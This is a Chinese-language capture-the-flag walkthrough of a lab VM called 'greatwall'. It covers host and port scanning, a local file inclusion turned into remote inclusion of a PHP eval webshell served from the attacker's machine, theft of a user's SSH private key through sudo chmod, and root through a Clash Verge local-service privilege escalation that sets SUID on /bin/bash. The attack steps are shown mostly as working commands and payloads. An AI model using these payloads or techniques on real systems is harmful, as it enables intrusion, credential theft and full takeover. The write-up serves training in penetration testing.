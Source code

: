 # **一、信息收集**

## **1.1. 主机发现**

首先，在目标网段内使用`arp-scan`工具进行主机发现，确定目标靶机的IP地址。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.131 00:0c:29:24:e9:11       VMware, Inc.
...
```

从扫描结果中，我们识别出目标主机的IP地址为 `192.168.205.131`。

## **1.2. 端口扫描**

接下来，使用`rustscan`对目标主机进行端口扫描，以发现其开放的服务。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ rustscan -a 192.168.205.131
...
Open 192.168.205.131:22
Open 192.168.205.131:80
```

扫描结果显示，目标主机开放了两个端口：22 (SSH) 和 80 (HTTP)。

## **1.3. Web服务探查**

访问目标 `http://192.168.205.131`，发现一个Web页面，页面上有一个输入框，提示语为 "Across the Great Wall we can reach every corner in the world"。

查看页面源代码，可以发现一个GET方法提交的表单，参数名为 `page`。

```html
<body>
    ...
    <form method="GET" class="address-form">
        <input type="text" name="page" class="address-bar" placeholder="https://">
    </form>
    ...
</body>
```

# **二、漏洞利用 (获取Webshell)**

## **2.1. LFI漏洞与出站防火墙策略发现**

根据功能猜测，`page`参数可能用于包含或请求其他页面。首先尝试使用 `file://` 协议读取本地文件，构造Payload：`file:///etc/passwd`。

服务器成功返回了 `/etc/passwd` 文件的内容，证实了此处存在一个本地文件包含 (LFI) 漏洞。

在进一步利用时，我们发现了一个关键限制：当尝试从远程服务器包含文件或发起反弹shell时，请求均会失败。经过多次测试，发现**该服务器存在出站（Egress）防火墙策略**，这并非Web应用层面的功能限制，而是更底层的网络配置（例如iptables）。该策略严格限制了服务器对外发起的连接：**只允许向目标端口为 22 (SSH) 和 80 (HTTP) 的地址建立连接**。任何试图连接到其他端口（如常用的4444, 8080等）的出站流量都会被阻断。

这一发现解释了为什么无论是远程文件包含还是反弹shell，都必须将我们攻击机上的监听服务设置在 80 或 22 端口。

## **2.2. 远程文件包含Getshell**

利用LFI漏洞，并遵从目标服务器的出站防火墙策略，我们可以让目标服务器包含并执行我们自己服务器上的恶意PHP文件，从而获取Webshell。

1. **准备Webshell**: 在Kali攻击机上创建一个简单的PHP一句话木马 `ant.php`。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ cat ant.php 
   <?php eval($_POST['ant']); ?>
   ```

2. **开启HTTP服务**: 在`ant.php`所在目录，使用Python开启一个临时的HTTP服务器。**根据前一步发现的出站防火墙策略，此HTTP服务必须开启在80端口**，否则目标服务器将无法访问。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ sudo python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

3. **包含远程Webshell**: 在目标Web页面的输入框中，构造Payload指向我们Kali攻击机上的webshell：`http://192.168.205.128/ant.php`。

4. **连接Webshell**: 使用蚁剑 (AntSword) 连接目标，URL为 `http://192.168.205.131/`，在请求数据的 `page` 参数中填入我们的远程马地址 `http://192.168.205.128/ant.php`，连接密码为 `ant`。

成功连接后，我们获得了目标服务器的Webshell，当前用户为 `www-data`。

# **三、权限提升**

## **3.1. www-data -> wall**

在Webshell中，我们发现当前用户 `www-data` 可以通过 `sudo` 以 `wall` 用户的身份执行 `chmod` 命令。

```shell
(www-data:/var/www/html) $ sudo -l
...
User www-data may run the following commands on this host:
    (ALL : wall) NOPASSWD: /bin/chmod
```

虽然可以直接执行 `chmod`，但无法直接利用它来修改 `/bin/bash` 等系统文件的权限以直接提权。但是，我们可以利用这个权限来修改 `wall` 用户家目录的权限，从而读取其SSH私钥。

1. **修改wall家目录权限**:

   ```shell
   (www-data:/home) $ ls -la
   drwx------  4 wall wall 4096 May 11 02:41 wall
   (www-data:/home) $ sudo -u wall chmod 755 wall
   (www-data:/home) $ ls -la
   drwxr-xr-x  4 wall wall 4096 May 11 02:41 wall
   ```

2. **读取SSH私钥**: 进入 `wall` 用户的 `.ssh` 目录，修改私钥 `id_rsa` 的权限并读取其内容。

   ```shell
   (www-data:/home/wall/.ssh) $ sudo -u wall chmod 600 id_rsa
   (www-data:/home/wall/.ssh) $ cat id_rsa
   -----BEGIN OPENSSH PRIVATE KEY-----
   b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
   ...
   QMXdH6a7iy89MAAAAOd2FsbEBncmVhdHdhbGwBAgMEBQ==
   -----END OPENSSH PRIVATE KEY-----
   ```

3. **SSH登录**: 将复制的私钥保存在Kali攻击机本地（例如 `/tmp/id_rsa`），赋予 `600` 权限，然后使用该私钥以 `wall` 用户身份SSH登录目标主机。

   ```shell
   ┌──(kali㉿kali)-[/tmp]
   └─$ vim id_rsa
   ┌──(kali㉿kali)-[/tmp]
   └─$ chmod 600 id_rsa
   ┌──(kali㉿kali)-[/tmp]
   └─$ ssh wall@192.168.205.131 -i /tmp/id_rsa
   Linux greatwall 6.1.0-32-amd64 ...
   wall@greatwall:~$ id
   uid=1000(wall) gid=1000(wall) groups=1000(wall)...
   ```

成功登录后，我们获得了 `wall` 用户的交互式Shell。

## **3.2. wall -> root**

登录`wall`用户后，再次检查`sudo`权限。

```shell
wall@greatwall:~$ sudo -l
Matching Defaults entries for wall on greatwall:
    ...
User wall may run the following commands on greatwall:
    (ALL) NOPASSWD: /usr/bin/systemctl start clash-verge-service
```

发现 `wall` 用户可以无密码启动 `clash-verge-service` 服务。这与近期披露的 **Clash Verge 权限提升漏洞**特征相符。

> [!Tip]
>
> https://mp.weixin.qq.com/s/fwIPGN79kf6_VAGkJOmz7w

**漏洞原理简析**:
Clash Verge 在通过 `systemctl` 启动服务时，会监听一个本地的HTTP接口（默认为 `127.0.0.1:33211`）。攻击者可以向该接口的 `/start_clash` 路径发送一个恶意的POST请求。请求体中的 `bin_path` 参数可以指定一个本地的可执行文件路径，服务会以`root`权限执行这个文件。这就造成了一个本地权限提升漏洞。

**利用步骤**:

1. **启动漏洞服务**: 使用 `sudo` 启动服务，激活漏洞接口。

   ```shell
   wall@greatwall:~$ sudo /usr/bin/systemctl start clash-verge-service
   ```

2. **验证服务监听**: 使用 `ss` 命令确认服务已在本地 `33211` 端口监听。

   ```shell
   wall@greatwall:~$ ss -tnlp
   State      Recv-Q     Send-Q         Local Address:Port      Peer Address:Port
   ...
   LISTEN     0          128                127.0.0.1:33211          0.0.0.0:*
   ...
   ```

3. **创建提权脚本**: 在 `/tmp` 目录下创建一个脚本 `a.sh`，其功能是为 `/bin/bash` 添加SUID权限位，并赋予其执行权限。

   ```shell
   wall@greatwall:/tmp$ cat > a.sh << EOF
   #!/bin/bash
   chmod +s /bin/bash
   EOF
   wall@greatwall:/tmp$ chmod +x a.sh
   ```

4. **发送恶意请求**: 使用 `curl` 向本地 `33211` 端口的 `/start_clash` 接口发送POST请求，通过 `bin_path` 参数指定执行我们刚刚创建的 `/tmp/a.sh` 脚本。

   ```shell
   wall@greatwall:/tmp$ curl -X POST 'http://127.0.0.1:33211/start_clash' \
   -H "Content-Type: application/json" \
   -d '{"bin_path": "/tmp/a.sh", "config_dir": "", "config_file": "", "log_file": "/dev/null"}'
   
   {"code":0,"msg":"ok","data":null}
   ```

5. **获取Root Shell**: 检查 `/bin/bash` 的权限，可以看到已经添加了SUID位。此时执行 `bash -p` 即可获得一个 `euid` 为 `root` 的shell。

   ```shell
   wall@greatwall:/tmp$ ls -la /bin/bash
   -rwsr-sr-x 1 root root 1265648 Mar 30  2024 /bin/bash
   wall@greatwall:/tmp$ bash -p
   bash-5.2# id
   uid=1000(wall) gid=1000(wall) euid=0(root) egid=0(root) groups=0(root)...
   ```

6. **读取Flag**: 至此，我们已成功提权至root，可以读取所有flag。

   ```shell
   bash-5.2# cat /root/r007.7x7oZzZzZzzzz /home/wall/user.flag
   flag{b3d2a9f34869484b74db97411cf1eb3b}
   flag{b088764475fa2a0a962fb9154f41c5b6}
   ```